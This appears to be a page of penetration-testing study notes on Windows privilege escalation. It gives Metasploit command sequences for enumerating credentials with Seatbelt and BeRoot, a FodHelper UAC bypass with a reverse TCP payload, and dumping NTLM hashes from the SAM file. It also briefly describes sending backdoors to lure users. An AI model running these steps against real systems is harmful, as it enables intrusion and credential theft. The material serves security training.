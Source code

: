 # Escalate Privileges

Perform escalate privileges by using user account passwords obtained in the first step of system hacking. In privileges escalation, you will attempt to gain system access to the target system, and then try to attain higher-level privileges within that system. In this step, you will use various privilege escalation techniques such as named piped impersonation, misconfigured service exploitation, pivoting, and relaying to gain higher privileges to the target system.

Privilege escalation is the process of gaining more privileges than were initially acquired. Here, you can take advantage of design flaws, programming errors, bugs, and configuration oversights in the OS and software application to gain administrative access to the network and its associated applications.

Backdoors are malicious files that contain Trojan or other infectious application that can either halt the current working state of a target machine or even gain partial or complete control over it. Here, you need to build such backdoors to gain remote access to the target system. You can send these backdoors through email, file-sharing web applications, and shared network drives, among other methods, and entice the users to execute them.

Privileges are a security roles assigned to users for specific programs, features, OSes, functions, files, or codes. They limit access by type of user. Privilege escalation is required when you want to access system resources that you are not authorized to access. It takes place in two forms: vertical privilege escalation and horizontal privilege escalation.&#x20;

* **Horizontal Privilege Escalation**: An unauthorized user tries to access the resources, functions, and other privileges that belong to an authorized user who has similar access permissions.&#x20;
* **Vertical Privilege Escalation**: An unauthorized user tries to gain access to the resources and functions of a user with higher privileges such as an application or site administrator.

***

## Privilege Escalation tools and Exploit Client-side Vulnerabilities

Privilege escalation tools such as **BeRoot** and **GhostPack Seatbelt** allow you to run a configuration assessment on a target system to find information about the underlying vulnerabilities of system resources such as services, file and directory permissions, kernel version, and architecture (Also **LinPEAS**). Using this information, you can find a way to further exploit and elevate the privileges on the target system.

Exploiting client-side vulnerabilities allows you to execute a command or binary on a target machine to gain higher privileges or bypass security mechanisms. Using these exploits, you can further gain access to privileged user accounts and credentials.

### BeRoot

Allow to run a configuration assessment on a target system to find out information about its underlying vulnerabilities, services, file and directory permissions, kernel version, architecture, as well as other data. Using this information, you can find a way to further exploit and elevate the privileges on the target system.

1. Upload the application beRoot.exe

If using metasploit, type:

```
upload /path/to/file/beRoot.exe
```

2. Run the file&#x20;

The result appears, displaying information about service names along with their permissions, keys, writable directories, locations, and other vital data. Can further scroll down to view the information related to startup keys, task schedulers, WebClient vulnerabilities, and other items.

Can find further vulnerabilities in the resulting services and attempt to exploit them to escalate your privileges in the target system. Windows privileges can be used to escalated privileges. These privileges include **SeDebug, SeRestore & SeBackup & SeTakeOwnership, SeTcb & SeCreateToken, SeLoadDriver, and SeImpersonate & SeAssignPrimaryToken.**

### **GhostPack Seatbelt**

To gather host information and perform security checks to find insecurities in the target system.

If using metasploit, type:

```
upload /path/to/file/Seatbelt.exe
shell
```

when the shell already changed, type below to gather information about AMSIProviders, **AntiVirus**, **AppLocker** etc.

```
Seatbelt.exe -group=system
```

Type below to gather information about **ChromiumPresence, CloudCredentials, CloudSyncProviders, CredEnum, dir, DpapiMasterKeys,** etc.

```
Seatbelt.exe -group=user
```

Type below to gather information about **ChromiumBookmarks, ChromiumHistory, ExplicitLogonEvents, FileInfo etc.**

```
Seatbelt.exe -group=misc
```

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Bypass User Account Control (UAC) setting: Named Pipe Impersonation Technique

to escalate the privileges using the Named Pipe Impersonation Technique. In metasploit, type:

```
run post/windows/gather/smart_hashdump
```

If the meterpreter require admin privileges to perform such actions, try to escalate the privileges by issuing a **getsystem** command to attempts to elevate the user privileges.

```
getsystem -t 1
```

if access denied, try to bypass the UAC setting that is blocking from gain unrestricted access.

Bypass **Windows UAC Protection** via **FodHelper Registry Key**.

Type **background** to to move aside the session first, do this and configure the options.

```
use exploit/windows/local/bypassuac_fodhelper
show options
```

observe that the **SESSION** is required, type:

```
set SESSION 2
```

Make sure to configure the payload to **windows/meterpreter/reverse\_tcp.**

type **exploit** or **run** to begin exploit the UAC.

```
set payload windows/meterpeter/reverse_tcp
exploit
```

If the UAC exploit successfully bypassed, type:

```
getuid # check the status of current user ID
getsystem -t 1 # re-issue command to elevate privileges
```

Now try to obtain password hashes located in the SAM file. Now this has successfully extracts the NTLM hashes and display them. Can further crack these password hashes to obtain plaintext passwords.

```
run post/windows/gather/smart_hashdump
```



